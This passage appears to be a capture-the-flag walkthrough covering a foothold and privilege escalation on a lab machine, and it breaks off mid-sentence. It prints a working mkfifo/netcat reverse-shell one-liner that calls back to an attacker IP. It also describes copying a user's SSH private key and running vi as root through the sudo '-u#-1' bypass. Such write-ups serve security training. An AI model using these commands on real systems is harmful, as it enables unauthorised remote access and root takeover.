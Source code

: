 Let's navigate to the web page.

![](4.png)

Using the password we cracked, let's login as charlie

![](5.png)

We see that we can execute command of the target.


# **Foothold**

With the command execution of the target, let's get a reverse shell.

First set up a listener with `nc -lvnp 9001`.

Now we execute the following command on target to get a shell.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```

> Don't forget to change the ip in the command above to your vpn ip (tun0)

![](6.png)

We got a shell, and used python pty to stabilize it.

# **Privilege Escalation**

Let's do some basic enumeration.

![](7.png)

On Charlie's home directory, there is a file called **teleport** that has a ssh private key. Let's copy that to our machine and connect to charlie's account with it.   

![](8.png)

Nice. Now let's check our privilege with `sudo -l`.

![](9.png)

We see we can run `vi` but not as root. When we check the version of `sudo` in the target, we find it's vulnerable and has the following [exploit](https://www.exploit-db.com/exploits/47502).

![](10.png)

We can add `-u#-1` to our sudo command to run `vi` as root. Now let's check [GTFOBins](https://gtfobins.github.io/gtfobins/vi/#sudo) on how to get root with `vi`.

![](11.png)

Our full command would be this:
